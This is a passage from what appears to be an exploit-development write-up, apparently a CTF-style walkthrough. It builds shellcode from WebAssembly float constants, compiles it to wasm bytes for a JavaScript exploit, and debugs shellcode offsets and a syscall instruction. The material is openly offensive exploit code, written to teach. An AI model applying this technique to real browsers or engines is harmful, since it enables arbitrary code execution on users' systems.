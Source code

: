 ```python
f64.const  -5.277350363223755e-137
f64.const  -1.9615413994613874e+23
f64.const  -4.9824131924791864e+187
f64.const  3.8821145718632853e-265
drop
drop
drop
drop
drop
drop
drop
drop
drop
drop
drop
drop
drop
drop
drop
drop
drop
drop
drop
drop
))
'''

open('exp.wat','w').write(let_wat_code)
os.system('./wat2wasm exp.wat')
wasm_bytes = open('exp.wasm','rb').read()
print('let shell_wasm_code = new Uint8Array([',end=' ')
for byte in wasm_bytes:
	print(byte,end=', ')
print('])')
```

- Here is the corresponding wat code for it, now add the output of this script to the javscript exploit 


![](https://raw.githubusercontent.com/jopraveen/jopraveen/refs/heads/main/imgs/Pasted%20image%2020241023231846.png)

- We skipped 8 sets, so our shellcode's address might changed, let's change it back to the correct offset (0x78e)

![](https://raw.githubusercontent.com/jopraveen/jopraveen/refs/heads/main/imgs/Pasted%20image%2020241023232150.png)

- We corrected the offset and everything went fine until the syscall instruction

```js
dec    dword ptr [rcx - 0x46]
```
